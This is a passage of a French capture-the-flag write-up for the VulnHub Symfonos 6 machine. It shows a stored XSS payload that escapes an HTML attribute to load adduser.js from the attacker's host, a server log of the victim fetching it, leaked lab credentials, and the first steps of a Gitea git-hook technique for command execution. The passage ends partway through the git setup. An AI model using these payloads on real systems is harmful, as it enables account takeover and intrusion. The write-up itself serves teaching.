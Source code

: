 Ensuite j'ai édité le profil de mon utilisateur pour qu'il appelle mon code javascript :

![Injection JS code](https://raw.githubusercontent.com/devl00p/blog/main/images/vulnhub/symfonos6/xss_payload_injection.jpg)

Et finalement j'ai posté un commentaire sur l'issue. Cependant j'ai remarqué que le javasript nécessitait d'échapper un attribut HTML :

```html
<div class="comment_avatar"><a class="av_comment" href="http://192.168.56.117/flyspray/index.php?do=user&area=users&id=2" title="<script src="http://192.168.56.1:9999/adduser.js"></script>">
```

J'ai changé ça et aussi choisi de fermer le tag en cours :

```html
"></a><script src="http://192.168.56.1:9999/adduser.js"></script>
```

Cette fois ça n'a pas été long à tomber dans le piège :

```bash
$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
192.168.56.117 - - [22/Feb/2023 13:32:18] "GET /adduser.js HTTP/1.1" 200 -
```

Grace au code javascript je peux alors me connecter avec les identifiants `hacker` / `12345678` et profiter des privilèges admin, à savoir voir l'ensemble des tickets.

## Capitaine Hook

Il y a en effet un autre ticket avec des identifiants :

> ## FS#2 - self hosted git service
> 
> I have configured gitea for our git needs internally!
> 
> Here are my creds in case anyone wants to check out our project!
> 
> achilles:h2sBr9gryBunKdF9

Ces identifiants ne permettant pas d'accéder au compte via SSH car seule une authentification par clé est permise mais on peut les utiliser pour nous connecter au `Gitea` sur le port 3000.

Il existe un exploit pour `Gitea` mais il semble avoir été publié après que le CTF soit disponible, ce n'est donc probablement pas la solution officielle : [Gitea 1.12.5 - Remote Code Execution (Authenticated) - Multiple webapps Exploit](https://www.exploit-db.com/exploits/49571)

Un peu comme sur les CTF comportant du Jenkins (voir [Solution du CTF Jeeves de HackTheBox](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Jeeves%20de%20HackTheBox.md)) où il fallait créer une étape de build sur un projet, ici nous allons créer un hook qui exécutera des commandes lorsque du code est poussé sur un projet Git.

Au lieu d'utiliser l'exploit j'ai effectué les commandes moi même. D'abord il faut créer le répo via l'interface web de `Gitea` puis créer le répo local, définir le répo distant puis pousser :

```bash
$ mkdir yolo
$ cd yolo
$ touch README.md
$ git init
astuce: Utilisation de 'master' comme nom de la branche initiale. Le nom de la branche
astuce: par défaut peut changer. Pour configurer le nom de la branche initiale
astuce: pour tous les nouveaux dépôts, et supprimer cet avertissement, lancez :
astuce: 
astuce:         git config --global init.defaultBranch <nom>
astuce: 
astuce: Les noms les plus utilisés à la place de 'master' sont 'main', 'trunk' et
astuce: 'development'. La branche nouvellement créée peut être rénommée avec :
astuce: 
```